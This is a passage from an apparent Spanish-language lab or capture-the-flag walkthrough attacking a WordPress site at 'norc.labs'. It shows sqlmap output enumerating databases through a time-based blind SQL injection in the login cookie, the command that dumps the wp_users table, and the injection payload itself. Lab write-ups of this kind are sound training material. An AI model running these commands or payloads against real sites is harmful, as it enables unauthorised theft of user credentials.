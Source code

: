 ```
[11:11:56] [INFO] retrieved:
[11:12:27] [INFO] adjusting time delay to 1 second due to good response times
2
[11:12:27] [INFO] retrieved: information_schema
[11:15:33] [INFO] retrieved: wordpress
[11:17:14] [INFO] fetching tables for databases: 'information_schema, wordpress'
[11:17:14] [INFO] fetching number of tables for database 'information_schema'
[11:17:14] [INFO] retrieved: 79
[11:17:30] [INFO] retrieved: ALL_PLUGINS
[11:19:35] [INFO] retrieved: APPLICABLE_ROLES
[11:22:16] [INFO] retrieved: CHARACTER_SETS
[11:24:26] [INFO] retrieved: CHECK_CONSTRAINTS
[11:27:04] [INFO] retrieved: COLLATIONS
[11:28:46] [INFO] retrieved: COLLATION_CHA^C
[11:30:01] [WARNING] HTTP error codes detected during run:
403 (Forbidden) - 1 times
```

Vemos que tiene `79` tablas, por lo que seria una locura esperar todo eso, vamos a ir al grano ya que nos interesa la base de datos de `Wordpress`, por lo que vamos a utilizar la base de datos por defecto a ver si cuela:

```shell
sqlmap --dbms=mysql -u "http://norc.labs/wp-login.php" --cookie='wordpress_logged_in=*' --level=2 -D wordpress -T wp_users --dump --batch
```

Info:

```
       ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8.11#stable}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org                                                                                                                
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:31:46 /2025-01-18/

custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
[11:31:46] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid parameter values so sqlmap could be able to run properly
[11:31:46] [WARNING] provided value for parameter 'wordpress_logged_in' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[11:31:46] [INFO] testing connection to the target URL
got a 302 redirect to 'http://norc.labs'. Do you want to follow? [Y/n] Y
[11:31:46] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: wordpress_logged_in=" AND (SELECT 9724 FROM (SELECT(SLEEP(5)))IDCZ) AND "NyJG"="NyJG
---
[11:31:46] [INFO] testing MySQL
do you want to URL encode cookie values (implementation specific)? [Y/n] Y
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[11:32:05] [INFO] confirming MySQL
```